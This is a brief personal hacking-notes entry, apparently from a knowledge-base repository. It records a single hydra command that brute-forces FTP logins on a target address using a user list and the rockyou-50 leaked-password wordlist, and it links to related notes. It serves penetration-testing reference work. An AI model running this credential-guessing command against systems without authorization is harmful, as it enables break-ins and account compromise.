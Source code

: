 # hydra bruteforce ftp rockyou 50
```bash
hydra -L users -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -e nsr $IP ftp
```

# Related
- [20221003150822](/zet/20221003150822/README.md) hydra bruteforce ftp
- ~/kb/hacking/commands/hydra-ftp-command.md

Tags:
    #assorted #command #hacking #hydra
